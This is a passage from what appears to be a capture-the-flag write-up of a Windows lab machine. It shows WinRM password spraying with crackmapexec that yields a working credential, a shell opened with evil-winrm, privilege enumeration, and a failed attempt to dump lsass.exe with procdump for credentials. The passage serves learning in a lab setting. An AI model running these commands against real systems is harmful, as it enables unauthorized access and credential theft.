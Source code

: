 Now we have a list of users and a list of password to use. We can search for the WinRM protocol:

```console
$ crackmapexec winrm 10.10.10.149 -u users -p pass

WINRM       10.10.10.149    5985   NONE             [-] None\Chase:$uperP@ssword
WINRM       10.10.10.149    5985   NONE             [+] None\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
WINRM       10.10.10.149    5985   NONE             [-] None\Chase:Q4)sJu\Y8qz*A3?d "'NoneType' object has no attribute 'upper'"
WINRM       10.10.10.149    5985   NONE             [-] None\Jason:stealth1agent
```

Connect to the machine:

```console
$ evil-winrm -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'

*Evil-WinRM* PS C:\Users\Chase\Documents>
```

## Privilege Escalation

The user **Chase** doesn’t have access to much system commands. We can check their privileges:

```console
*Evil-WinRM* PS C:\Users\Chase\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Only the **Administrator** user is in the **administrators** group:

```console
*Evil-WinRM* PS C:\Users\Chase\Desktop> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
```

Dumping `lsass.exe` won’t be possible:

```console
*Evil-WinRM* PS C:\Users\Chase\Desktop> ./procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

Error opening lsass.exe (628):
Access is denied. (0x00000005, 5)
```
